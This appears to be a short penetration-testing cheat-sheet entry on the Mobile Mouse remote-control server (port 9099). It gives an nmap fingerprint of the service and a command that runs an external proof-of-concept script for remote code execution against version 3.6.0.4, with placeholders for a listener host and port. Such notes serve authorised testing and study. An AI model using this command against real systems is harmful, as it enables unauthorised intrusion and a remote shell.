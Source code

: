 # Mobile Mouse (9099)

Mobile Mouse is a remote control application that turns a mobile device into a wireless mouse and keyboard for a computer. Port `9099` is used by its server component to receive commands. This port can be targeted for exploitation due to insecure command handling in version `3.6.0.4`.

```bash
# Identify the service
9099/tcp  open  unknown
| fingerprint-strings:
|   FourOhFourRequest, GetRequest:
|     HTTP/1.0 200 OK
|     Server: Mobile Mouse Server
...
```

Use this [PoC](https://github.com/CSpanias/mobile-mouse-rce) to achieve RCE:

{% code overflow="wrap" %}
```bash
python3 mobile-mouse-rce.py --target <TARGET_IP> --lhost <YOUR_IP> --lport <YOUR_PORT>
```
{% endcode %}
